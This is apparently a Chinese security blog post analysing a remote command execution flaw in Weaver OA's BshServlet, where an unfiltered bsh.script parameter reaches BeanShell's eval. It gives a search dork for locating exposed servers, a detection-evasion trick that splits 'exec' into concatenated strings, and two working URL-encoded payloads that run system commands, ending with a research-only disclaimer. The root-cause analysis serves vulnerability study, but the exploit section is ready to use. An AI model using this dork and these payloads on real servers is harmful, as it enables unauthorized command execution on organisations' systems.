

泛微OA命令执行，后门般的漏洞
漏洞背景
很多脚本都有类似eval的函数，把字符串转换为表达式执行
比如python有os.system('ls')、os.popen('ls *.sh').readlines()、subprocess.call (["cmd", "arg1", "arg2"],shell=True)
javascript有eval('1+2+3')
而在java中则有BeanShell的bsh-2.0b4.jar来完成这项任务，来看一个简单的测试demo
使用maven管理项目依赖包，在pom.xml添加
1 | <dependency> |
1 | import bsh.Interpreter; |
更魔性一点，比如绕一下exec函数检测
1 | String or = "eval(\"ex\" + \"ec(\\\"pwd\\\")\");"; |
这里exec像是Runtime.getRuntime.exec()一样执行系统命令，但是”eval”是什么呢？
其实在bsh-2.0h4.jar中有一个commands目录，顾名思义其实就是定义了Interpreter能执行的bsh命令

其中在exec.bsh定义了exec
1 | /** |
看一下eval.bsh，调用自身interpreter.eval接口
1 | bsh.help.eval = "usage: eval( String expression )"; |
漏洞URL
1 | inurl:/weaver/bsh.servlet.BshServlet |
漏洞分析
漏洞成因
根据漏洞url直接定位到BshServlet，BshServlet继承了HttpServlet实现了doGet方法和doPost方法，而doPost方法调用了doGet
1 | public void doPost(HttpServletRequest paramHttpServletRequest, HttpServletResponse paramHttpServletResponse) throws ServletException, IOException { doGet(paramHttpServletRequest, paramHttpServletResponse); } |
1 | public void doGet(HttpServletRequest paramHttpServletRequest, HttpServletResponse paramHttpServletResponse) throws ServletException, IOException { |
可以看到”bsh.script”、”bsh.client”、”bsh.servlet.output”、”bsh.servlet.captureOutErr”都是可控的直接通过参数传进来；而其中有猫腻的在”bsh.script”赋值给str1之后传入evalScript函数
1 | String str1 = paramHttpServletRequest.getParameter("bsh.script"); |
具体evalScript如下
1 | Object evalScript(String paramString, StringBuffer paramStringBuffer, boolean paramBoolean, HttpServletRequest paramHttpServletRequest, HttpServletResponse paramHttpServletResponse) throws EvalError { |
可以看到paramString不经过任何处理直接传给了interpreter.eval(paramString)
看一下通过bsh.servlet.captureOutErr传入的paramBoolean，只是和输出有关和命令没有太大关系
1 | if (paramBoolean) { |
再看一下bsh.servlet.output可以赋值为raw，会根据这个值来判断输出走sendRaw还是sendHTML函数
sendraw设置response返回格式ContentType为"text/plain"即原样输出结果；而sendHTML会采用Servlet的模版引擎SimpleTemplate渲染，并且会针对"&<>"做实体编码
根据Interpreter的使用来看，这里参数可控那么可以直接传入java代码，也可以调用Interpreter定义的command接口执行命令
Expolit
payload1
1 | bsh.script=eval%0d("ex"%2b"ec(bsh.httpServletRequest.getParameter(\"cmd\"))");&bsh.servlet.output=raw&cmd=whoami |
payload2
1 | bsh.script=ProcessBuilder+pb+%3D+new+ProcessBuilder%28new+String%5B%5D+%7B%22whoami%22%7D%29%3B%0D%0Apb.redirectErrorStream%28true%29%3B%0D%0Ajava.io.BufferedReader+reader+%3D%0D%0A++++++++new+java.io.BufferedReader%28new+java.io.InputStreamReader%28pb.start%28%29.getInputStream%28%29%29%29%3B%0D%0AStringBuilder+builder+%3D+new+StringBuilder%28%29%3B%0D%0AString+line+%3D+null%3B%0D%0Awhile+%28+%28line+%3D+reader.readLine%28%29%29+%21%3D+null%29+%7B%0D%0A++++builder.append%28line%29%3B%0D%0A++++builder.append%28%22%5Cr%5Cn%22%29%3B%0D%0A%7D%3B%0D%0Abuilder%3B |
1 | ProcessBuilder pb = new ProcessBuilder(new String[] {"cmd.exe","/c","whoami"}); |
免责申明
本文中提到的漏洞利用Poc和脚本仅供研究学习使用，请遵守《网络安全法》等相关法律法规。